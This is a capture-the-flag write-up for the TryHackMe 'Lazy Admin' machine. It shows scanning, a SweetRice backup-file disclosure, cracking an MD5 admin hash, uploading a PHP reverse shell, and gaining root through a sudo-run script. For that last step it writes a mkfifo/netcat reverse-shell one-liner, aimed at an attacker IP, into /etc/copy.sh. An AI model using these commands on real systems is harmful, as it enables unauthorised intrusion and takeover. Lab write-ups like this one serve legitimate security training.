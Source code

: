 ```yaml
---
title: TryHackMe - Lazy Admin
layout: post
categories:
- TryHackMe
tag: security, linux
image: "/assets/img/lazy-admin.jpeg"
image_alt: lazy-admin
---
```


Easy linux machine to practice your skills

<br>

## 1. Lazy Admin     

Have some fun! There might be multiple ways to get user access.

<br>

### 1.1 What is the user flag?

Let's do a nmap scan.

```
$ nmap -sSCV 10.10.221.70
```

![nmap](/assets/img/tryhackme/lazy-admin/nmap.png)

Two ports are open. These are **`22/tcp SSH and 80/tcp HTTP`**. 

Let's visit the website running on `80/tcp` port. 

I see an apache default page on the website.

![apache](/assets/img/tryhackme/lazy-admin/apache.png)

Let's do a `gobuster` scan for the website.

```
$ gobuster dir -u http://10.10.221.70/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-one](/assets/img/tryhackme/lazy-admin/gobuster-one.png)

We found the  `/content/` directory. Let's go to the directory. 

![content](/assets/img/tryhackme/lazy-admin/content.png)

This website uses `SweetRice` and it seems to be closed. 

So, I try another gobuster scan on this directory.

```
$ gobuster dir -u http://10.10.221.70/content/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-content](/assets/img/tryhackme/lazy-admin/gobuster-content.png)

We found a few directories here. Let's examine all directories.

 - _**`/inc/`**_ 
 
	  We found a lot of files in this directory.
     
    ![inc](/assets/img/tryhackme/lazy-admin/inc.png)

    I found lastest.txt. It seems `SweetRice's` running version is `1.5.1.` Maybe this version is vulnerable.

    ![lastest](/assets/img/tryhackme/lazy-admin/lastest.png)

 - _**`/as/`**_
    
	  We found a login page here. 
    
    ![as](/assets/img/tryhackme/lazy-admin/as.png)

<br>

I searched SweetRice in [exploit-db](https://www.exploit-db.com/).  

![search](/assets/img/tryhackme/lazy-admin/search.png)

I am looking to the first. [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718)

![first](/assets/img/tryhackme/lazy-admin/first.png)

According to the vulnerability, there is a msql_backup file under the /inc/ directory.

![say](/assets/img/tryhackme/lazy-admin/say.png)

Let's go and see. 

![back](/assets/img/tryhackme/lazy-admin/back.png)

Let's go to the /mysql_backup/ directory.

![sql-file](/assets/img/tryhackme/lazy-admin/sql-file.png)

Let's see what's inside this file.

```
$ cat mysql_bakup_20191129023059-1.5.1.sql
```

![sql-inside](/assets/img/tryhackme/lazy-admin/sql-inside.png)

We found two important things here.

_**`Admin: manager`**_

_**`Passwd: 42f749ade7f9e195bf475f37a44cafcb`**_

It seems the password is a hash. Let's identify and crack this hash.

![hash-id](/assets/img/tryhackme/lazy-admin/hash-id.png)

This password is encrypted using **`MD5`**.

Let's crack. [https://md5decrypt.net/](https://md5decrypt.net/)

![crack-hash](/assets/img/tryhackme/lazy-admin/crack-hash.png)

_**`Passwd: *******`**_

Now we can log in as an admin user. Let's go to the /as/ directory and log in.

![home](/assets/img/tryhackme/lazy-admin/home.png)

Now we can upload a reverse shell. So, I download pentest monkey's [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and edit the php file. `($ip and $port)`

Then we go to the Post > Create 

![post-create](/assets/img/tryhackme/lazy-admin/post-create.png)

After, we can add a file below the page. (.php file isn't working you must change the extension.)

![below](/assets/img/tryhackme/lazy-admin/below.png)

After the upload, the page looks like this.

![upload](/assets/img/tryhackme/lazy-admin/upload.png)

Now, we set up a netcat listener.

```
$ nc -nlvp 4444 
```

Then we go to the [http://10.10.103.31/content/attachment/shell.phtml](http://10.10.103.31/content/attachment/shell.phtml)

And we are inside.

![inside](/assets/img/tryhackme/lazy-admin/inside.png)

Now, let's get to the user flag.

![user-flag](/assets/img/tryhackme/lazy-admin/user-flag.png)

<br>

### 1.2 What is the root flag?

Very surprisingly for www-data, we have sudo privileges.

```
$ sudo -l
```

![sudo-l](/assets/img/tryhackme/lazy-admin/sudo-l.png)

The backup script is a Perl script that calls /etc/copy.sh

![copy](/assets/img/tryhackme/lazy-admin/copy.png)

Now we edit this copy.sh, file to get the root privilege. 

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 5555 >/tmp/f" > /etc/copy.sh 
```

Let's setup a netcat listener.

```
$ nc -nlvp 5555 
```

Let's run the backup.pl file and get the root privilege.

```
$ sudo perl /home/itguy/backup.pl
```

![privesc](/assets/img/tryhackme/lazy-admin/privesc.png)

We are inside. Let's get the root flag.

![root-flag](/assets/img/tryhackme/lazy-admin/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
